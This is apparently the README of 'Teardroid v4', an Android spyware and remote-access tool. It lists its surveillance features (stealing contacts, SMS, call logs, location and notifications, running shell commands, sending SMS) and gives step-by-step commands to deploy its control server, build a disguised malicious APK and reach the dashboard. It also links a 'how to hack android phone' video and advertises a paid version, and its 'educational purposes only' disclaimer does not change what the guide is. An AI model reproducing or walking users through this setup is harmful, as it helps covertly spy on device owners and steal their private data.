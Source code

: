 ### :warning:Disclaimer : This software is meant for educational purposes only. I'm not responsible for any malicious use of the app.

# :robot: Teardroid v4

![Screenshot](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/IMG-20220122-WA0000_RdKN5Rv3U.jpg)

🇮🇳 It's easy to use android botnet work without port forwarding, vps and android studio

[![GitHub issues](https://img.shields.io/github/issues/ScRiPt1337/Teardroid-phprat)](https://github.com/ScRiPt1337/Teardroid-phprat/issues)
[![Twitter](https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Ftwitter.com%2Fhacksec42)](https://twitter.com/intent/tweet?text=Wow:&url=https://github.com/ScRiPt1337/Teardroid-phprat/)
[![Hacksec](https://img.shields.io/badge/Teardroid-4.0-red)](https://github.com/ScRiPt1337/Teardroid-phprat/)

### :rocket: Features

- Retrieve Contact
- Retrieve SMS
- Retrieve running Services
- Retrieve Device Location (:worried: Only work when the app is open on newer devices)
- Retrieve Call Logs
- Run Shell Command ( use findphno command in run shell command to get device phone number and use findx:pdf to find all the pdf files on the device )
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start

### :warning: Requirement

- Python3
- Java
- Linux or Windows os (we don't support termux use gcloud)

### Java version i used

```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### Tested on

- Windows 11
- Windows 10
- Manjaro
- Kali linux
- Ubuntu

### Deploy the Teardroid control panel

- Set up an account at [deta.sh](https://web.deta.sh/)
- Install [Deta Cli](https://docs.deta.sh/docs/cli/install)
- Logging in to Deta via the CLI
- Create a new Python Micro using the command below

```bash
$ deta new --python teardroid_control # its will create an teardroid_control folder
```

- Clone [Teardroidv4_api](https://github.com/ScRiPt1337/Teardroidv4_api) repo using the command below

```bash
$ git clone https://github.com/ScRiPt1337/Teardroidv4_api
```

- Move all Teardroidv4_api Files to teardroid_control folder using the command below

```bash
$ cd Teardroidv4_api
$ cp -r * ../teardroid_control/
```

- Go back to the deta repo folder using the command below

```bash
$ cd ../teardroid_control/
```

- Deploy the Control panel using the following command.

```bash
$ deta deploy
```

### How to setup

- Clone Teardroid-phprat repo with the following command.

```bash
$ git clone https://github.com/ScRiPt1337/Teardroid-phprat
```

- cd in the Teardroid-phprat directory, then type the command below to install all dependencies

```bash
$ pip install -r requirements.txt
```

- Run the following command to see the options that we can use with the builder.

```bash
$ python Teardroid.py
[+] Checking Python Version
[+] Python Version : 3.10 ✓
  ______                    __           _     __         __ __
 /_  __/__  ____ __________/ /________  (_)___/ /  _   __/ // /
  / / / _ \/ __ `/ ___/ __  / ___/ __ \/ / __  /  | | / / // /_
 / / /  __/ /_/ / /  / /_/ / /  / /_/ / / /_/ /   | |/ /__  __/
/_/  \___/\__,_/_/   \__,_/_/   \____/_/\__,_/    |___/  /_/


Teardroid v4.0 - A tool to build teardroid spyware for Android devices. 🕷
Contact us : https://t.me/script1337 🚀
usage: Teardroid.py [-h] [-v] [-b]

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Teardroid 🥴
  -b , --build   Build Teardroid with custom name [ex: Teardroid.py -b teardroid] 😷
```

- To create an apk execute the following command.

```bash
$ python Teardroid.py -b your_app_name
```

- It will prompt you with your Control Panel url enter your deta micro URL (without / at the end of the url).
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- DONE

### :city_sunset: Build using bot

- Build Teardroid using [teardroid_bot](https://t.me/teardroid_bot) in telegram

### Dashboard

- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### Screenshot

- ![Builder](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/Builder_3oDdS0Tr7.png)

- ![Overview](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-29_gYkI6tIvGmG.png)

- ![TaskManager](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-49_RakvqeLWG.jpeg)

### Demo Video

- Video : [how to hack android phone using Teardroid v4](https://www.instagram.com/tv/CZSu4y0osHo/?utm_source=ig_web_button_share_sheet)

### :atm: Want something with more advanced features try Scatter ALFA

- Scatter ALFA is paid.
- Go to telegram and message me if you're interested here https://t.me/script1337
- join our telegram channel https://t.me/scatter1337

![Screenshot](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/scatter.png)

![dashboard](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/dashboard.png)

![1](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/1.png)

![2](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2.png)

### Support me

[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/script1337x)

### Beware from scam

- Make sure the channel username is @scatter1337 beware from scam
- I am only available on telegram and script1337 is my only account please double check the username

### Contact info

- Email : anon42237@gmail.com
- Telegram : https://t.me/script1337
- Visit our website : https://www.hacksec.in
